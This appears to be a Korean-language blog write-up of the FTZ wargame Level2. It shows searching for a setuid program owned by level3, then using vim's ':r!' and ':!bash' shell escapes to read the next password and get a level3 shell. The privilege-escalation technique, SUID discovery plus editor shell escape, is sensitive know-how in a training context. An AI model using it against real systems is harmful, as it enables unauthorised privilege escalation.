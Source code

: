 ```yaml
---
layout: post
title: FTZ Level2
categories: [Wargame]
tags: [FTZ]
comments: true
---
```


level1에서 획득한 패스워드를 이용하여 level2에 접속합니다.

```
[level2@ftz level2]$ ls -l
total 12
-rw-r--r--    1 root     root           60 Mar 23  2000 hint
drwxr-xr-x    2 root     level2       4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level2       4096 May 22 00:27 tmp

[level2@ftz level2]$ cat hint 

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```

우선 다음 권한을 획득해야 하므로 `find`명령을 이용하여 level3의 프로그램을 찾도록 하겠습니다.

```
[level2@ftz level2]$ find / -user level3 -perm +6000 2>/dev/null

/usr/bin/editor
```


이런 파일 한개가 나오게 되었습니다. 힌트와 같이 편집기로 추정되는 파일이므로 아마 이 프로그램에서 사용되는 기능으로 추정됩니다.

그럼 이 프로그램을 실행시켜 보겠습니다.
```
~
~
~                            VIM - Vi IMproved
~
~                             version 6.1.320
~                         by Bram Moolenaar et al.
~               Vim is open source and freely distributable
~
~                      Help poor children in Uganda!
~              type  :help iccf<Enter>       for information
~
~              type  :q<Enter>               to exit
~              type  :help<Enter>  or  <F1>  for on-line help
~              type  :help version6<Enter>   for version info
~
~
~
```

이러한 프로그램이 시작되었습니다. vi 편집기가 실행되었는데, vi편집기의 기능을 이용하는 것임을 알 수 있습니다. vi에서 명령을 실행시킬수 있는데, :을 입력해 보겠습니다.

```
~
~
~                            VIM - Vi IMproved
~
~                             version 6.1.320
~                         by Bram Moolenaar et al.
~               Vim is open source and freely distributable
~
~                      Help poor children in Uganda!
~              type  :help iccf<Enter>       for information
~
~              type  :q<Enter>               to exit
~              type  :help<Enter>  or  <F1>  for on-line help
~              type  :help version6<Enter>   for version info
~
~
~
:
```

이렇게 옵션을 사용할 수 있는 상태가 되게 되는데, 이때 **w**를 입력하고 엔터를 누르게 될 경우 저장, **q**를 누르고 엔터를 누르면 끝내기와 같은 기능이 있습니다. 이 외에도 많은 기능이 있습니다.

그 기능중에 명령을 실행 시킬 수 있는 옵션이 있는데, 그 옵션은 `!`를 이용하는 옵션입니다. !를 입력하고 기능을 실행하면 그 기능을 쉘에서 실행시키는 것과 같이 실행할 수 있습니다. 그 방법 외에도 실행시킨 결과를 편집기로 저장하는 방법이 있는데 `r!`를 사용하는 방법이 있습니다.

```
total 12
-rw-r--r--    1 root     root           60 Mar 23  2000 hint
drwxr-xr-x    2 root     level2       4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level2       4096 May 22 00:27 tmp
~
~
~
~
~
~
~
~
~
~
~
~
~
:r!ls -l
```

와 같이 사용하게 될 경우 ls -l옵션을 출력하는데 그 출력 결과를 편집기로 보내어 저장을 할 수 있는 상태로 만듭니다. 이러한 식으로 my-pass명령을 사용하게 되면 비밀번호 출력 결과를 편집기에 출력하게 되므로 다음단계 비밀번호를 알아낼 수 있습니다.

my-pass명령 뿐만 아니라 `bash`와 같이 쉘을 실행시키는 옵션도 가능합니다. bash를 실행 시켜 보겠습니다.

```
[level3@ftz level2]$ id
uid=3003(level3) gid=3002(level2) groups=3002(level2)
[level3@ftz level2]$ 
```

이러한 식으로 권한을 획득할 수도 있습니다.

```
^[[H^[[2J
Level3 Password is "            ".
 
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:r!my-pass
```